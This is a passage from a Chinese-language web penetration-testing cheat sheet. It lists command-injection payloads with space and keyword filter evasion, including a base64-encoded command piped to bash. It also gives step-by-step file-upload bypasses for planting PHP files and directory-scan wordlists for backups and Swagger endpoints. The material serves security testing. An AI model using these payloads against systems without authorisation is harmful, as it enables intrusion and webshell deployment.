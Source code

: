 

## 1.8 命令执行payload（可以的话挂xray测吧）

主要测试点在可以执行系统命令的功能点。

```
;whoami
|whoami
||whoami
&whoami
&&whoami

tips:
${IFS} # 替换空格。
%09 # 替换空格，前提PHP环境。
echo d2hvYW1pCg== | base64 -d | bash 
a=c;b=a;c=t;$a$b$c file1
cat<>file1
cat<file1
c''"at" file1 
```



## 1.9 文件上传

1. 先使用copy /b a.jpg b.php s.jpg

2. 上传s.jpg，抓包修改后缀为php，send发送测试。（这样做的好处是，绕过了前端验证，保证MIME为jpg，绕过了Content-type验证，因为是copy生产的图片，是可以正常打开成图片的，因此可以绕过php通过获取图像长宽进行的验证，还可以绕过验证文件头进行的验证。）

3. 不行就改改后缀，如Windows下使用php.或者php空格进行尝试。

4. 在不行就多加一下filename=aaa.jpg;filename=aaa.jpg;filename=aaa.jpg;filename=a.php或者使用垃圾字符进行填充。

5. 再不行就后缀名换行。

6. 如果不会修改文件名，还可以上传.htaccess文件试试。

（其他语言同理。）



## 1.10 目录扫描

1. 直接dirsearch直接开干，像备份文件这些可以增加一些自己的字典，因为可能存在以下几种情况。

```
域名.zip（后缀不一定是zip）
年份.zip（可能是今年，也可能是去年，后缀不一定是zip）
wwwroot.zip
dist.zip(大概率是前端源码，作用有限)
```

2. 对于spring的站还可以扫一下地址。

```
/v2/api-docs
/swagger-ui.html
/swagger
/api-docs
/api.html
/swagger-ui
/swagger/codes
/api/index.html
/api/v2/api-docs
/v2/swagger.json
/swagger-ui/html
/distv2/index.html
/swagger/index.html
```